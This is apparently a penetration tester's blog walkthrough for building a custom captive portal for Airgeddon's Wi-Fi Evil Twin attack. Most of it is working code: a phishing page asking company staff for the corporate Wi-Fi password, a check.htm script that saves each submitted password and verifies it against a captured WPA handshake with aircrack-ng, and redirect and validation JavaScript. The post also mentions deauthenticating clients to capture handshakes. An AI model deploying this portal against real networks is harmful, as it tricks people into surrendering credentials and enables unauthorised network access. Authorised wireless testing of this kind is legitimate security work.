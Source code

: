 ```yaml
---
title: "Customize your Captive Portal in Airgeddon's Evil Twin Attack"
excerpt: "A summarized walkthrough to customize the captive portal in Wi-Fi Evil Twin attacks."
categories:
    - Penetration-Test
tags:
    - Penetration-Test
toc: true
show_date: true
classes: wide
---
```


# Introduction
During a Wi-Fi penetration test recently, I tried to explore further about Evil Twin attacks, which is one of the client-side attacks. To whom may not know much about this attack, Evil Twin attacks involve adversaries who attempt to mimic a target Wi-Fi access point with a rogue access point and to trick users to connect the fake one.

# Custom Portal Plugin in Airgeddon
## Installation

Download the script `customportals.sh` on [https://github.com/KeyofBlueS/airgeddon-plugins](https://github.com/KeyofBlueS/airgeddon-plugins) and put it in `/usr/share/airgeddon/plugins`. Also, create a folder called `custom_portals` which will store all your customized captive portal template.

```sh
┌──(root㉿kali)-[/usr/share/airgeddon/plugins]
└─# ls -al
total 96
drwxr-xr-x 3 root root  4096 Sep  5 23:45 .
drwxr-xr-x 4 root root  4096 Sep  5 21:35 ..
drwxr-xr-x 2 root root  4096 Sep  5 23:45 custom_portals
-rw-r--r-- 1 root root 38008 Sep  5 23:38 customportals.sh
-rw-r--r-- 1 root root 34298 Aug  1 19:07 missing_dependencies.sh
-rw-r--r-- 1 root root  6401 Aug  1 19:07 plugin_template.sh
```

# Working on the Template
## index.htm
`index.htm` is the captive portal page that tricks users to provide information, such as Wi-Fi password or even their active directory credentials. In the following example, we attempt to tell the staff to provide the corporate Wi-Fi password in a scenario of WPA-PSK SSIDs.

```sh
#!/usr/bin/env bash
echo '<!DOCTYPE html>'
echo '<html>'
echo -e '	<head>'
echo -e '		<meta name="viewport" content="width=device-width"/>'
echo -e '		<meta http-equiv="Content-Type" content="text/html; charset=UTF-8"/>'
echo -e '		<title>"${et_misc_texts[${captive_portal_language},15]}"</title>'
echo -e '		<link rel="stylesheet" type="text/css" href="portal.css"/>'
echo -e '		<script type="text/javascript" src="portal.js"></script>'
echo -e '	</head>'
echo -e '	<div class="content">'
echo -e '		<form method="post" id="loginform" name="loginform" action="check.htm">'
echo -e '			<img src="./logo.png" alt="Logo" class="logo"/>'
echo -e '			<h1>Wi-Fi Access</h1>'
echo -e '			<p class="description">Please enter the Wi-Fi password to gain access to the corporate Wi-Fi network.</p>'
echo -e '			<label><input id="password" maxlength="63" name="password" size="20" type="password" placeholder="Password" class="input-field"/></label>'
echo -e '			<input type="submit" value="Connect" class="button"/>'
echo -e '		</form>'
echo -e '		<p class="warning">Only authorized persons are allowed to access the corporate network of ABC Company.</p>'
echo -e '	</div>'
exit 0
```

You may also notice that the form action will be taken in `check.htm` where I will explain further in the next section.

## check.htm

`check.htm` is to proceed the form submission by users in `index.htm`. The script would firstly extract the information from the POST HTTP data. In this case, the password is retrieved.

```sh
POST_DATA=$(cat /dev/stdin)
if [[ "${REQUEST_METHOD}" = "POST" ]] && [[ ${CONTENT_LENGTH} -gt 0 ]]; then
	POST_DATA=${POST_DATA#*=}
	password=${POST_DATA/+/ }
	password=$(printf '%b' "${password//%/\\x}")
fi
```

Once the password is retrieved, there are a couple of conditional statements following. The first one is to validate the length of the password provided by the user. The length should be at least 8 characters and less than 64 characters. If validated, the password will be temporarily saved in `${tmpdir}${webdir}${currentpassfile}`, which should typically be `/tmp/ag1/www/`. The password will be used to crack the hash in the 4-way handshake file captured by airodump-ng and Airgeddon.

```sh
if [[ ${#password} -ge 8 ]] && [[ ${#password} -le 63 ]]; then
	rm -rf "${tmpdir}${webdir}${currentpassfile}" > /dev/null 2>&1
	echo "${password}" >\
	"${tmpdir}${webdir}${currentpassfile}"
	aircrack-ng -a 2 -b ${bssid} -w "${tmpdir}${webdir}${currentpassfile}" "${et_handshake}" | grep "KEY FOUND!" > /dev/null
```

Then, check whether `KEY FOUND` is in the output of `aircrack-ng` to determine the attack is successful or not.

```sh
if [ "$?" = "0" ]; then
	touch "${tmpdir}${webdir}${et_successfile}" > /dev/null 2>&1
	echo '<h1 class="success">Connection Success</h1>The password is correct, the connection will be re-established in a few moments'
	et_successful=1
else
	echo "${password}" >>\
	"${tmpdir}${webdir}${attemptsfile}"
	echo '<h1 class="error">Connection Error</h1>The password is incorrect, redirecting to the main screen'
	et_successful=0
fi
```

## portal.css

You could customize the CSS content here.

## portal.js

In `check.htm`, if the password is not correct, the user will be redirected to the captive portal page in a few seconds.

```sh
if [ ${et_successful} -eq 1 ]; then
    exit 0
else
    echo '<script type="text/javascript">'
    echo -e '\tsetTimeout("redirect()", 3500);'
    echo '</script>'
    exit 1
fi
```

The JavaScript function `redirect()` is called in `portal.js` to redirect to `index.htm`.

```javascript
function redirect() {
    document.location = "index.htm";
}
```

Meanwhile, some response corresponding to the form could be included here, such as password length validation.

```javascript
(function() {
    var onLoad = function() {
        var formElement = document.getElementById("loginform");
        if (formElement != null) {
            var validateForm = function(event) {
                event.preventDefault();
                var password = document.getElementById("password").value;
                if (password === "") {
                    alert("Please enter the Wi-Fi password.");
                } else if (password.length < 8) {
                    alert("The password must be at least 8 characters.");
                } else {
                    formElement.submit();
                }
            };
            formElement.addEventListener("submit", validateForm);
        }
    };

    document.readyState != 'loading' ? onLoad() : document.addEventListener('DOMContentLoaded', onLoad);
})();
```

# The Demo Captive Portal

Put the template in a sub-folder of `/usr/share/airgeddon/plugins/custom_portals/`.

```sh
┌──(root㉿kali)-[/usr/…/airgeddon/plugins/custom_portals/Demo]
└─# ls -al
total 48
drwxr-xr-x 2 root root  4096 Sep  6 02:11 .
drwxr-xr-x 3 root root  4096 Sep  5 23:46 ..
-rw-r--r-- 1 root root  2036 Sep  6 02:10 check.htm
-rw-r--r-- 1 root root  1170 Sep  6 02:10 index.htm
-rwxr-x--- 1 root root 24228 Sep  6 02:11 logo.png
-rw-r--r-- 1 root root  1556 Sep  6 02:10 portal.css
-rw-r--r-- 1 root root   889 Sep  6 02:11 portal.js
```

After the handshake capture file with deauthentication has been obtained, a rogue AP will be established with the captive portal.

![](/assets/images/2025-09-06-02.png)


![](/assets/images/2025-09-06-03.png)

# Captive Portal Sample

You may refer to my sample on [https://github.com/patrickt2017/Airgeddon-Evil-Twin-Captive-Portal-Demo](https://github.com/patrickt2017/Airgeddon-Evil-Twin-Captive-Portal-Demo) and develop your own template further!

# Resources

https://zimperium.com/glossary/evil-twin-attacks